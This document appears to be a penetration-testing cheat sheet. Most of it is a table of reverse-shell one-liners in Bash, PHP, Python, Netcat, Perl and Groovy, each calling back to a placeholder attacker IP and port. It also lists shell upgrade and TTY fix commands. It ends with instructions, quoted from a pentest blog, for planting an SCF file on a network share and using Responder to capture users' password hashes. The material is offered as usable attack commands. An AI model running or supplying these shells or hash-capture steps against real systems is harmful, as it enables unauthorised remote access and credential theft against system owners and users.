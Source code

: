 # Reverse Shells

### Software specific shells

| Name   | Value                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| ------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Bash   | bash -i >& /dev/tcp/111.1111.111.111/8080 0>&1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| PHP    | php -r '$sock=fsockopen("111.1111.111.111",8080);exec("/bin/sh -i <&3 >&3 2>&3");'                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| Python | python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("111.1111.111.111",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"]);'                                                                                                                                                                                                                                                                                                                                          |
| NC v1  | nc -e /bin/sh 111.1111.111.111 8080                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| NC v2  | rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 111.1111.111.111 8080 >/tmp/f                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| Perl   | perl -e 'use Socket;$i="111.1111.111.111";$p=8080;socket(S,PF\_INET,SOCK\_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr\_in($p,inet\_aton($i)))){open(STDIN,">\&S");open(STDOUT,">\&S");open(STDERR,">\&S");exec("/bin/sh -i");};'                                                                                                                                                                                                                                                                                                                                             |
| Groovy | String host="{your\_IP}"; int port=8000; String cmd="/bin/bash"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()) {while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read()); while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close(); |

### Shell Upgrades

| Name     | Value                                           |
| -------- | ----------------------------------------------- |
| Perl     | perl -e 'exec "/bin/bash";'                     |
| Bash     | echo os.system('/bin/bash')                     |
| Python 3 | python3 -c 'import pty; pty.spawn("/bin/bash")' |
| Python 2 | python -c 'import pty; pty.spawn("/bin/bash")'  |

### Shell Fixes

| Name            | Value              |
| --------------- | ------------------ |
| Fix Window Size | stty rows X cols Y |
| Get Window Size | stty size          |
| Fix Output      | stty raw -echo     |

### Reverse shell files

#### SCF files

[https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)\
\
It is not new that SCF (Shell Command Files) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer. However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share.\
\
Saving the pentestlab.txt file as SCF file will make the file to be executed when the user will browse the file. Adding the @ symbol in front of the filename will place the pentestlab.scf on the top of the share drive.

```
[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

Responder needs to be executed with the following parameters to capture the hashes of the users that will browse the share.

```
responder -wrf --lm -v -I eth0
```

